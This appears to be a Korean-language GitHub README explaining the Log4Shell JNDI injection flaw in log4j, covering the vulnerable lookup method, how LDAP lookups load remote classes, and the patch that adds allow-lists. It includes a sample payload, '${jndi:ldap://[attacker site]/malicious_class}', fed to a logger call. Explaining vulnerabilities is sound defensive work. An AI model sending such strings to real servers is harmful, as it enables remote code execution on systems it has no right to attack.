 # log4j-explain
log4j는 전 세계적으로 인기있는 logging library로 Mincraft, Apple iCloud, Apache, Twitter, Steam, Amazon, Tesla 등 현재 수많은 소프트웨어에서 사용되고 있습니다. 이러한 log4j에서 원격 코드 실행이 가능한 JNDI Injection 취약점이 발견되었습니다.

해당 취약점의 이름은 log4shell로 명명되었으며 log4j를 사용하는 소프트웨어 대부분을 공격 가능한 높은 파급력과 비교적 간단하다는 점 때문에 취약점의 위험성을 평가하는 지표인 cvss 점수의 최고점 10.0이 부여되었습니다. log4shell 취약점의 영향을 받는 소프트웨어는 링크에서 확인할 수 있으며, 2021/12/12 기준 지속적으로 업데이트되고 있습니다.



**취약점은 JndiManager.java 의 JNDI lookup 기능에서 발견되었습니다.**

public <T> T lookup(final String name) throws NamingException {
        return (T) this.context.lookup(name);
}
        
        
JNDI(Java Naming and Directory Interface)는 자바 애플리케이션에서 외부 디렉터리 서비스에 접근하기 위한 API로, 원격지 서버의 객체를 바인딩해 애플리케이션에서 접근할 수 있는 기능입니다. 이러한 외부 디렉터리 서비스 프로토콜은 대표적으로 LDAP(Lightweight Directory Access Protocol)과 LDAPS(Secure LDAP)이 있습니다.

해당 lookup 기능의 name 매개변수에 ${jndi:ldap://[attacker site]/malicious_class} 와 같이 해커가 제어하는 서버의 악성 클래스 경로를 전달하게 되면 lookup은 ${} 안의 내용을 파싱해 실행합니다. 이때 JNDI:LDAP 프로토콜로 접근하는 외부 디렉터리 서비스에 대한 검증이 존재하지 않아 해커의 악성 클래스를 바인딩하게 되고 악성 클래스에 포함된 임의 코드를 원격에서 실행할 수 있습니다.

String userInput = "${jndi:ldap://[attacker site]/malicious_class}";
logger.info("log {} ", userInput)

        
위와 같이 취약한 서버가 log4j를 통해 request와 같은 user input을 기록하는 경우 원격 코드 실행이 트리거 됩니다.

JNDI와 JNDI Injection은 [하루한줄] CVE-2021-2109 : 오라클 Weblogic Server 원격 코드 실행 취약점에서도 활용되었습니다.

패치는 lookup의 매개변수 name에 전달되는 프로토콜 및 ldap 서버, 클래스에 대한 필터를 추가하는 코드를 추가하는 것으로 이루어졌습니다.

```java
public synchronized <T> T lookup(final String name) throws NamingException {
        try {
            URI uri = new URI(name);
            if (uri.getScheme() != null) {
                if (!allowedProtocols.contains(uri.getScheme().toLowerCase(Locale.ROOT))) {
                    LOGGER.warn("Log4j JNDI does not allow protocol {}", uri.getScheme());
                    return null;
                }
                if (LDAP.equalsIgnoreCase(uri.getScheme()) || LDAPS.equalsIgnoreCase(uri.getScheme())) {
                    if (!allowedHosts.contains(uri.getHost())) {
                        LOGGER.warn("Attempt to access ldap server not in allowed list");
                        return null;
                    }
                    Attributes attributes = this.context.getAttributes(name);
                    if (attributes != null) {
                        // In testing the "key" for attributes seems to be lowercase while the attribute id is
                        // camelcase, but that may just be true for the test LDAP used here. This copies the Attributes
                        // to a Map ignoring the "key" and using the Attribute's id as the key in the Map so it matches
                        // the Java schema.
                        Map<String, Attribute> attributeMap = new HashMap<>();
                        NamingEnumeration<? extends Attribute> enumeration = attributes.getAll();
                        while (enumeration.hasMore()) {
                            Attribute attribute = enumeration.next();
                            attributeMap.put(attribute.getID(), attribute);
                        }
                        Attribute classNameAttr = attributeMap.get(CLASS_NAME);
                        if (attributeMap.get(SERIALIZED_DATA) != null) {
                            if (classNameAttr != null) {
                                String className = classNameAttr.get().toString();
                                if (!allowedClasses.contains(className)) {
                                    LOGGER.warn("Deserialization of {} is not allowed", className);
                                    return null;
                                }
                            } else {
                                LOGGER.warn("No class name provided for {}", name);
                                return null;
                            }
                        } else if (attributeMap.get(REFERENCE_ADDRESS) != null
                                || attributeMap.get(OBJECT_FACTORY) != null) {
                            LOGGER.warn("Referenceable class is not allowed for {}", name);
                            return null;
                        }
                    }
                }
            }
        } catch (URISyntaxException ex) {
            // This is OK.
```
